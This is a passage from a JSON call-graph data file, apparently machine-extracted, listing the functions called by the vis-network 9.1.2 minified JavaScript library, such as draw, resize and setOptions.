"target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_icon"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resizeImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "switchImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "performStroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawImageLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_load_images"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateGroupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "customScalingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "visible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkCoordinateOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateGroupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "positionInitially"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 